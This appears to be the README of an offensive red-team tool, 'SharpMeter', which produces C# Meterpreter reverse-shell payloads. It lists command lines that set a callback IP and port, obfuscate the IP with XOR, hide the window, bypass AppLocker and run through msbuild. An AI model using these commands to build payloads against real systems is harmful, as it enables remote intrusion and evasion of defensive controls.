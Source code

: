 # SharpMeter
A Simple Way To Make Meterpreter Reverse Payloads

Example tcp
python SharpMeter.py 192.168.1.101 4444 compileme.cs tcp

# Example Close Window / XOR IP
python SharpMeter.py 192.168.1.101 443 compileme.cs https -w -x

# Example AppLocker
python SharpMeter.py 192.168.1.101 443 compileme.cs https -w -x -a

# Example msbuild!
python SharpMeter.py 192.168.1.101 80 compileme.cs http -w -x -m
